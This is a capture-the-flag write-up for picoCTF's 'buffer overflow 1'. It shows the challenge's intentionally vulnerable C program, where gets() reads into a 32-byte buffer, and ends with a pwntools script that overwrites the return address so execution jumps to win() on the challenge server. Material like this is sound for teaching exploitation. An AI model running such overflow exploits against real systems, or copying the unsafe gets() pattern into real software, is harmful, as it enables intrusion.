 **picoCTF - buffer overflow 1**

### Binary protection

![](p/1.png)

This binary is poorly protected, so it shouldn't be a problem to take advantage of buffer overflow vulnerability.

### Source code


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We have `win()` function, which is responsible for printing, so what can we do?

1. Get the address of `win()` function (using for example `radare2`)
2. Overflow the buffer and override instruction pointer.

Seems to be easy!

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","49267")
process.recv()

payload = b"A"*44 + p32(0x080491f6)
process.sendline(payload)
process.recv()
flag = process.recv()
print(flag)
```

![](p/2.png)

